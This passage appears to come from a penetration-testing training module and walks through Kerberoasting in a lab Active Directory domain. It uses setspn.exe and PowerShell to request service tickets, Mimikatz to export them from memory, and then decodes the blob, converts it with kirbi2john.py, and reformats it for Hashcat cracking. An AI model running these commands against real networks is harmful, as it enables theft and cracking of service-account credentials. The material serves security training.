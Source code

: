   Retrieving All Tickets Using setspn.exe

```powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


## Extracting Tickets from Memory with Mimikatz
```cmd
mimikatz # base64 /out:true


mimikatz # kerberos::list /export  
```
#### Preparing the Base64 Blob for Cracking

  Preparing the Base64 Blob for Cracking

```shell
gdxqpardo@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

#### Placing the Output into a File as .kirbi

  Placing the Output into a File as .kirbi

```shell
gdxqpardo@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

#### Extracting the Kerberos Ticket using kirbi2john.py

  Extracting the Kerberos Ticket using kirbi2john.py

```shell
gdxqpardo@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

#### Modifiying crack_file for Hashcat

  Modifiying crack_file for Hashcat

```shell
gdxqpardo@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
